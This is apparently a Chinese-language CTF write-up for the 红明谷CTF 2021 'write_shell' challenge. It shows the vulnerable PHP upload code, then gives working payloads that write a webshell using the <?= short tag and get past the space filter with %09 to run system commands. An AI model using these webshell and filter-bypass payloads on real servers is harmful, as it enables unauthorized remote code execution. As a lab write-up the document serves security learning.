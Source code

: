 # \[红明谷CTF 2021]write\_shell

## \[红明谷CTF 2021]write\_shell

## 考点

* `<?`写shell
* %09绕过空格

## wp

给了代码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

给了沙盒路径，访问`?action=pwd`就可以看到

![](<../.gitbook/assets/image (6) (1) (1).png>)

然后`?action=upload&data=`是将data写入到沙盒中，访问`sandbox/cc551ab005b2e60fbdc88de809b2c4b1/index.php`就可以看到

要写shell有三种方式，如下

* \<?php
* \<?=要开启short\_open\_tag
* \<script language="php">在PHP7之后就不能用了

在返回头看到PHP版本为7.0，且在check函数中过滤了很多字符

```
/'| |_|php|;|~|\\^|\\+|eval|{|}/i
```

这样就只剩下了`<?=`这种方式，请求`?action=upload&data=%3c%3f%3d123456%3f%3e`，再访问沙盒的index.php，是可以输出123456，过滤了`~`，不能取反绕过。然后构造正常的shell就可以

```
?action=upload&data=<?=system("ls")?>
// 过滤了空格，使用%09绕过
?action=upload&data=<?=system("ls%09/")?>
```

![](<../.gitbook/assets/image (25) (1) (1).png>)

## 小结

1. 这里尝试了无参RCE，发现个很奇怪的东西，在去读请求头的时候，出来个http，`?action=upload&data=<?=end(getallheaders())?>`，不论怎么改请求头都是这个http
